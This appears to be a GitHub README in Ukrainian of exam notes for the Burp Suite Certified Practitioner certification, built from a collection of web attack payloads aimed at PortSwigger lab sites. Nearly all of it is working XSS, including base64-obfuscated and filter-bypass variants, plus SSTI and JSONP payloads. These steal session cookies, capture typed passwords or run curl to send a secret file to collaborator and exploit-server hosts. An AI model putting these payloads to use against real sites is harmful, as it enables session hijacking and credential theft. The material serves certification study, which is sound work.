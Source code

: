 # Burp-exam-notes

>Тут я викладу матеріали які можуть допомогти під час складання екзамену Burp Suite Certified Practitioner Exam. Частину із них я взяв [тут](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner), але як виявилось на практиці не всі вони були готові, деякі варто було допиляти, а деякі змінити, що забрало подекуди багато часу, з огляду на те, що сам екзамен триває 4 години. Тому дуже важливо мати усі ін'єкції робочі та перевірені, і не гаяти часу на їх виправлення під час самого екзамену.
>Корисні підказки для складання екзамену від [PortSwigger](https://portswigger.net/web-security/certification/exam-hints-and-guidance/retaking-your-exam)

----

**+eval**
```
"+eval(atob("ZmV0Y2goImh0dHBzOi8vYnVycC5vYXN0aWZ5LmNvbS8/Yz0iK2J0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk="))}//

``` 
>тут в base64 передається 
```
fetch("https://burp.oastify.com/?c="+btoa(document['cookie']))
```
**+eval URL encode**
>тут готова ін'єкція яка поверта відповідно на колаборатор кукі
```
<script>
location="https://YOUR-LAB-ID.web-security-academy.net/?SearchTerm=%22%2Beval(atob(%22ZmV0Y2goImh0dHBzOi8vMmNmbTZlMmFpajVmZWQ3ZXl4ZTN3Mnc0dXYwbW9oYzYub2FzdGlmeS5jb20vP2M9IitidG9hKGRvY3VtZW50Wydjb29raWUnXSkp%22))}%2F%2F"
</script>
```

===

<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>

=== -Function`X$ URL encode

<script>
location="https://0aa7008c03742cfb80f9085a003f00c4.web-security-academy.net/?find=%22-Function`X${'document.location=%22https://pf8ftts7s6lrxx4czzvyip2f86ex2oqd.oastify.com/%22%2Bdocument.cookie'}```-%22"
</script>

=== - Function`X$

"-Function`X${'document.location="https://burp.oastify.com/"+document.cookie'}```-"

===

"></select><script>document.location='http://burp.oastify.com/?c='+document.cookie</script>

===

{{constructor.constructor('document.location="http://burp.oastify.com?c="+document.cookie')()}}

===

\"-fetch('http://burp.oastify.com?c='+btoa(document.cookie))}//

===

<><img src=1 onerror="window.location='http://burp.oastify.com/c='+document.cookie">

===

<script>document.write('<img+src="http://burp.oastify.com?c='+document.cookie+'"+/>');</script>

===

<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('http://burp.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">

===

<script>
location = 'https://kek.web-security-academy.net/?query=<body onload=document.location='https://burp.oastify.com/?c='+document.cookie tabindex=1>#x';
</script>

ULR Encoded:

<script>
location = 'https://kek.web-security-academy.net/?query=%3Cbody+onload%3Ddocument.location%3D%27https%3A%2F%2Fburp.oastify.com%2F%3Fc%3D%27%2Bdocument.cookie%20tabindex=1%3E#x';
</script>

===

<xss id=x onfocus=document.location="http://burp.oastify.com/?c="+document.cookie tabindex=1>#x

ULR Encoded:

%3Cxss%20id=x%20onfocus=document.location=%22http://burp.oastify.com/?c=%22+document.cookie%20tabindex=1%3E#x

=== animatetransform onbegin

<svg><animatetransform onbegin=document.location='https://burp.oastify.com/?c='+document.cookie;>

URL Encoded:

%3Csvg%3E%3Canimatetransform%20onbegin=document.location='https://burp.oastify.com/?c='+document.cookie;%3E

===

'accesskey='x'onclick='alert(1)

===

</script><script>document.location="http://burp.oastify.com/?c="+document.cookie</script>

===

\';document.location=`http://burp.oastify.com/?c=`+document.cookie;//

===

</ScRiPt ><ScRiPt >document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />');</ScRiPt > 

Can be interpreted as

</ScRiPt ><ScRiPt >document.write(String.fromCharCode(60, 105, 109, 103, 32, 115, 114, 99, 61, 34, 104, 116, 116, 112, 58, 47, 47, 99, 51, 103, 102, 112, 53, 55, 56, 121, 56, 107, 51, 54, 109, 98, 102, 56, 112, 113, 120, 54, 113, 99, 50, 110, 116, 116, 107, 104, 97, 53, 122, 46, 111, 97, 115, 116, 105, 102, 121, 46, 99, 111, 109, 63, 99, 61) + document.cookie + String.fromCharCode(34, 32, 47, 62, 60, 47, 83, 99, 114, 105, 112, 116, 62));</ScRiPt >

===

"-alert(window["document"]["cookie"])-"
"-window["alert"](window["document"]["cookie"])-"
"-self["alert"](self["document"]["cookie"])-"

===

<iframe src="https://0a2c005604d146b980d6cbc5002300c8.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:fetch(\'https://your-collaborator-url.com/\'+document.cookie)','*')">
</iframe>

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=fetch(`https://your-collaborator-url.com?cookie=${document.cookie}`)>','*')">
</iframe>

=== SSTI

<%= system("curl https://your-collaborator-url.com/$(cat /home/carlos/secret)") %>

{{request.cookies.get('session')|urlize('https://your-collaborator-url.com/?cookie=')}}

=== /js/geolocate.js

GET /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=document.location%3d'https%3a//your-collaborator-url.oastify.com/%3fcookie%3d'%2bdocument.cookie%3b





----



